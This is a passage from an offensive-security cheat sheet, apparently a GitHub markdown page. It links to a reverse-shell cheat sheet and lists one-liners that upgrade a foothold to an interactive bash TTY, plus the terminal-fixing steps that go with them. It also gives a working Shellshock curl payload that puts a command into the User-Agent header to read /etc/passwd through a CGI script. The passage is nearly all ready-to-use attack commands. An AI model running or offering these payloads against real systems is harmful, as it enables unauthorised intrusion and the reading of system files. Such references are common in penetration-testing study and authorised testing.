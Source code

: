 ```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

### Interactive shell

```
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash
echo os.system('/bin/bash')

# Sh
/bin/bash -i

# Perl
perl -e 'exec "/bin/bash"'

# Ruby
exec "/bin/bash"

# Lua
os.execute('/bin/bash')
```

### Adjust Interactive shell

```
stty size # Find your terminal size -> 50 235
Ctrl-Z
stty raw -echo  // Disable shell echo
fg
export SHELL=bash
export TERM=xterm OR export TERM=xterm-256color
stty rows 50 columns 235
```

---

## SHELLSHOCK

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>
```

---

## USEFUL LINUX COMMANDS

### Find a file
